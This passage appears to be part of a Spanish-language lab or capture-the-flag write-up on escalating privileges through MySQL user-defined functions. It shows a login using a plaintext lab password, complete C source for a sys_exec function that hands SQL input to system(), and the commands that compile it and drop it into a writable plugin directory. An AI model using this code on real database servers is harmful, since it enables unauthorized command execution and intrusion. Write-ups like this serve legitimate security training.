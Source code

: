 Ahora sabiendo que el servicio de **mysql** esta habilitado procedemos a logueranos en la base de datos:
```bash
mysql -u admin -pPassAdmin123-
```

### Vulnerabilidad UDF (User-Defined Functions) en MySQL

Las **Funciones Definidas por el Usuario (UDF)** en MySQL permiten extender la funcionalidad del servidor mediante bibliotecas externas. Sin embargo, presentan graves riesgos de seguridad si no se configuran adecuadamente.
Ahora para explotar esta vulnerabilidad seguiremos la documentacion, Tenemos **gcc** para compilar, asi que en el directorio **tmp** crearemos el siguiente archivo:
**lib_mysqludf_sys.c**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <mysql/mysql.h>

my_bool sys_exec_init(UDF_INIT *initid, UDF_ARGS *args, char *message) {
    if (args->arg_count != 1 || args->arg_type[0] != STRING_RESULT) {
        strcpy(message, "sys_exec() takes exactly one string argument.");
        return 1;
    }
    return 0;
}

long long sys_exec(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error) {
    if (args->args[0]) {
        return system(args->args[0]);
    }
    return -1;
}

my_bool sys_exec_deinit(UDF_INIT *initid) {
    return 0;
}
```

Ahora lo compilamos:
```bash
gcc -shared -o lib_mysqludf_sys.so -fPIC lib_mysqludf_sys.c -I/usr/include/mysql/ -L/usr/lib/ -lmariadbclient
```

Despues lo movemos a los archivos de **mysql**
```bash
mv /tmp/lib_mysqludf_sys.so /usr/lib/mysql/plugin/
```

Revisando los permisos tenemos capacidad de escritura:
```bash
ls -la /usr/lib/mysql/

drwxr-xrwx 1 root root 4096 Feb 27 13:33 plugin
```
